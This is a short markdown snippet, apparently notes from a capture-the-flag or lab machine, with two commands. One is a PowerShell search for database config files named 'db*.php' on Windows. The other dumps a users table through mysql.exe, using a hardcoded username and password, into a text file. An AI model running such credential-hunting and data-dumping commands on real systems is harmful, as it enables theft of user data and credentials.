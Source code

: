 ## Search database file on Windows
```bash
Get-ChildItem -Recurse -File | Where-Object { $_.Name -like 'db*.php' }
```
## Dump database without interactive shell
```bash
C:\xampp\mysql\bin\mysql.exe -u certificate_webapp_user -pcert!f!c@teDBPWD -e "USE Certificate_WEBAPP_DB; SELECT * FROM users;" > C:\Users\xamppuser\Documents\mysql.txt
```